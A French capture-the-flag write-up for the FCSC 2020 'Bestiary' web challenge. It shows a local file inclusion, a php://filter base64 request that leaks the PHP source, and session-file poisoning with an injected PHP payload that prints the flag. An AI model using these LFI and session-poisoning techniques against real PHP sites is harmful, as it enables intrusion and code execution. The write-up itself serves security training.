





# Bestiary

Auteur: Ewaël

**Bestiary** est un des challenges web à 100 points du FCSC 2020 et dont voici l'énoncé:



Le lien menant sur une page avec un bestiaire qui regroupait des informations sur la créature choisie.



La première chose que je remarque est la manière dont la créature choisie est envoyée dans la requête: par le paramètre `monster` dans l'URL. Je teste alors directement `monster=flag` et je vois que rien ne s'affiche là où `monster=test` renvoie l'erreur suivante:



C'est ainsi que je suis parti sur ma première piste: une simple LFI. En effet, `
Warning: include(/usr/local/lib/php/test): failed to open stream: No such file or directory in /var/www/html/index.php on line 33` me fait clairement penser que le serveur se contente d'afficher la page demandée, et j'imagine que si le mot *flag* est filtré, on peut quand même trouver d'autres informations intéressantes. Je commence par vérifier ma théorie en allant chercher des fichiers généralement croustillants, et effectivement, ça fonctionne:



Le problème, c'est que je n'en tire pas grand chose. Pareil du côté des hosts, fausse piste. En regardant les possibilités qu'offre la LFI, je tombe sur la bonne piste. En effet, la faille à exploiter est une application spécifique de LFI: l'utilisation des filtres php. Je comprends qu'il est possible de lire le code php de la page `index.php` grâce à cette page:

[http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php](http://pims.tuxfamily.org/blog/2010/05/nouvelle-technique-de-lfi-les-filtres-php/)

J'essaie donc de passer par le base 64 en envoyant `/index.php?monster=php://filter/read=convert.base64-encode/resource=index.php` et ça fonctionne, je décode la chaine renvoyée et je récupère mon joli *index.php*:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

Je réalise tout de suite qu'effectivement le mot "flag" était bien filtré, j'ai d'ailleurs d'abord foncé tête baissée sur ce problème avant de réaliser que la solution n'était pas là. En effet ce qui m'intéresse se situe dans ces lignes:

```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
```

Après recherches sur ce `session_save_path` je comprends qu'on peut accéder à un fichier potentiellement intéressant dans `sessions/sess_b112ccb116944fa18da40b335829e4ae`, "b112ccb116944fa18da40b335829e4ae" étant mon cookie *PHPSESSID*. On trouve sur cette page simplement la chaine contenant notre dernière requête, dans mon cas: `monster|s:4:"test";`.

Ainsi j'ouvre un autre onglet pour envoyer la requête avec le payload, et je garde cet onglet pour rafraîchir la page une fois le payload envoyé, afin de voir le résultat. J'envoie donc d'abord `/index.php?monster=<?php%20echo%20file_get_contents("flag.php");%20?>` afin d'afficher le flag, puis je retourne sur l'onget `/index.php?monster=sessions/...` puis dans le code source, et surprise, voilà le flag:



`FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`
